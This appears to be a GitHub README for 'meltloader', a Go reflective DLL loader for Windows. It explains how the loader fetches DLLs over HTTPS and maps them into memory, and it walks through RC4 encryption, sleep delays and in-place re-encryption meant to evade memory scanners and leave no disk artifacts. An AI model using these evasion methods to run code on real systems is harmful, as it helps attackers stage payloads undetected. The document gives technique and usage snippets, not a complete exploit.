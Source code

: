 # meltloader

a reflective dll loader for windows written in go that performs pe loading entirely in memory with automatic memory management and encryption features.

## overview

meltload implements reflective dll loading using windows nt api calls to allocate, write, and execute pe files without touching disk. the loader handles pe parsing, relocation processing, import resolution, and memory protection changes while providing tracking and cleanup capabilities. this should allow you to chain an arbitrary amount of DLLs that perform various operations in a modular and secure manner :3

the loader uses windows' provided SystemFunction032 rc4 encryption for evasion purposes. downloaded dlls are always encrypted in memory with an optional sleep period before decryption and execution, and after execution the mapped dll image gets encrypted in place using a randomly generated key. this makes the loaded dll unreadable to memory analysis tools while maintaining proper cleanup functionality.

## https requirement

LoadDLLFromURL requires https connections as winhttp in all my implementations failed with non https and i cba to look at microsoft docs any longer for function signature and type converting windows stuff to go.

## go dll compatibility

this loader does not work with go-compiled dlls due to abi mismatch issues. the wincall library used for syscalls was designed to operate within an os thread context with an uninitialized go runtime. go dlls expect a fully initialized go runtime environment which conflicts with this approach. use standard c/c++ compiled dlls instead (better anyways, more reusable)

## api usage

```go
// load dll from file
mapping, err := pe.LoadDLLFromFile("path/to/dll.dll", "ExportedFunction")

// load dll from url with optional sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction", 5)

// load dll from url without sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction")

// check currently mapped dlls
baseAddrs, sizes, count := pe.GetMap()

// cleanup/unmap dll from memory
err = pe.Melt(mapping)
```

## function identifier interface

the functionIdentifier parameter accepts multiple types:

- string: function name for named exports ("MessageBoxA")
- int: ordinal number for ordinal exports 
- string containing number: automatically parsed as ordinal ("123")

if no specific function is found, the loader will execute the dll's entry point with DLL_PROCESS_ATTACH.

## technical implementation

the loader performs standard reflective dll loading steps:

pe validation checks dos and nt headers for proper signatures and offsets. memory allocation uses NtAllocateVirtualMemory attempting preferred base address first, falling back to system-chosen addresses. section mapping copies pe headers and each section to their virtual addresses using NtWriteVirtualMemory.

relocation processing handles base address changes by parsing the relocation table and updating all absolute addresses. only IMAGE_REL_BASED_DIR64 relocations are processed for 64-bit compatibility. import resolution walks the import table, loads required libraries with LoadLibraryW, and resolves function addresses with GetProcAddress.

memory protection changes from PAGE_READWRITE to PAGE_EXECUTE_READ using NtProtectVirtualMemory after dll loading completes. export resolution searches the export table by name or ordinal to find the target function.

the encryption system generates a random 32-byte rc4 key during loading. a deferred function encrypts the mapped dll memory in place after execution completes. the encryption key gets securely wiped from memory after use.

memory tracking maintains a global registry of loaded dlls protected by read-write mutex. each mapping stores base address and size information. the Melt function uses VirtualFree with MEM_RELEASE flag and automatically removes entries from the tracking registry. this is offset iffy, but DLL 0: Base=0x19065C10000, Size=32768 bytes is all that shows up to memory scanners, can also optionally be encrypted when unused if you want to adapt this further

## evasion features

the loader includes several evasion mechanisms. downloaded dlls are always encrypted in memory with an optional time period before decryption and execution. mapped dlls get encrypted in place after execution using rc4 with random keys. memory operations use nt api calls instead of higher level win32 apis. all allocations and operations happen entirely in memory without disk artifacts. the tracking system allows complete cleanup of loaded dlls, removing them from our process memory.
